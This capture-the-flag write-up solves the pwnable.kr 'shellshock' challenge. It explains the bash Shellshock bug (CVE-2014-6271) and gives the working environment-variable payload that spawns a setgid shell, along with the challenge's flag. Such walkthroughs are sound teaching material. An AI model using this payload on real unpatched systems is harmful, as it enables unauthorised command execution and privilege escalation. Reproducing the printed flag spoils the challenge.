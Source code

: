 # shellshock

## Description

shellshock - 1 pt

> Mommy, there was a shocking news about bash. <br>
> I bet you already know, but lets just make it sure :) <br> <br> <br>
> ssh shellshock@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Shellshock

Shellshcok is a vulnerability in the bash shell. It allows an attacker to execute arbitrary commands on the target machine. The vulnerability was discovered in 2014 and was patched in 2014. However, many systems are still vulnerable to this attack.

The bug is caused by the way bash handles environment variables. Bash will unintentionally execute commands when they are concatenated to the end of function definitions stored in the values of environment variables.

For example, in older versions of bash, the following code will print the current working directory:

```bash
$ env x='() { :;}; pwd' bash -c "echo hello"
```

### Exploit


As always, we start by examining our permissions and the available files:

```bash
$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```

```bash
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

Let's take a look at the source code:

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

This program sets the effective user and group ids of the process to the effective group id of the process. It then executes the bash shell with the command `echo shock_me`. 

Since `shellshock` has the setgid bit set, it will run with the effective group id of `shellshock_pwn`. This means that the program will run with the same permissions as the `shellshock_pwn` user.

As the title of the challenge suggests, we need to exploit the shellshock in order to get the flag. We can do this by setting an `x` environment variable to the following value:

```bash
() { :;}; bash
```

Then, running the `shellshock` program will give us a shell with permissions to read the flag:

```bash 
$ env x='() { :;}; bash' ./shellshock
$ cat flag
only if I knew CVE-2014-6271 ten years ago..!!
```
